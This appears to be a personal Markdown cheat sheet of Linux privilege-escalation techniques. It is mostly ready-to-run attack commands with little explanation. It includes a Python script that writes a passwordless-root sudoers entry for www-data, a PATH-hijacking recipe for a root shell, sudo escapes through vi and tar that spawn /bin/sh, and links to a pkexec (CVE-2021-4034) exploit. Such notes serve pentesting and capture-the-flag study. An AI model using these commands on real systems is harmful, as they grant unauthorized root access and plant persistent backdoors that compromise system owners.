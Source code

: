 ### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()

### PRIVESC WITH PATH VARIABLE MANIPULATION
- If a binary does not detail the path to run another binary e.g not using (/usr/bin/curl) {stating the path}

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f0562606-ec66-47bb-a419-9293ca0a62f1)

- You can manipulate the path and get a root shell.It should be noted the binary you are exploiting must have a suidbit

      cd /tmp
      echo "/bin/sh" > <binary you eant to attack>
      chmod 700 curl
      export PATH=/tmp:$PATH

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cf277f1d-1664-4ea8-a1f0-1461101c5006)
   
### Privesc with pkexec(suidbit) ver 0.105(CVE-2021-4034)
   Use this <a href="https://github.com/arthepsy/CVE-2021-4034">exploit</a>
   <a href="https://www.exploit-db.com/exploits/50689">Exploit db's link</a>

### if a user is allowed to run vi as root with no password

             sudo /usr/bin/vi
             :!/bin/bash

### Privesc with tar if a user can run it as root with no password
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/43c6206f-dda5-4b01-9ca4-af2b28e47ca6)

- Use

       sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
